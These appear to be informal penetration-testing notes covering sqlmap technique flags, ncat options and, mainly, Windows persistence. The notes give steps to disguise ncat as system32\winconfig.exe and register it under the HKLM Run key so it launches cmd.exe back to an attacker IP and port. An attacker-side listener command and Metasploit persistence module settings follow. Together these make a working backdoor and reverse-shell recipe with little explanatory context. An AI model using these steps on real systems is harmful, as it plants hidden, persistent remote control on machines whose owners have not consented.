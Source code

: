 ```bash
--technique=U # UNION attack
--technique=B # boolean-based attacks
--flush-session # if you need to clear the logs for a rerun test or smt like that #logs > /usr/share/sqlmap/output/
```

# System Atacks

## ncat 
```
-l  -listem
-e  -execute file
-p  -port
-v  -verbose
```

## backdoor

- copy ncat (with the right OS version) to the target
- as WIndows\system32\winconfig.exe
- go to regedit

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

New > String Value
Edit with the path of the ncat as winconfig follow by the ip of attacker and port to connect

```bash
 -e cmd.exe
example: "C:\Windows\System32\winconfig.exe <IP> <PORT> -e cmd.exe"
```

```bash
# the persistence is set. 
# We can listen in our attacker machine 
ncat -l -p <port> -v
```

## METERPRETER
if u have a session already

to get persistence:
```
use exploit/windows/local/s4u_persistence
```

or
```
use exploit/windows/local/persistence
set payload, session, lhost and port 
set DisablePayloadHandler false
set start SYSTEM
```
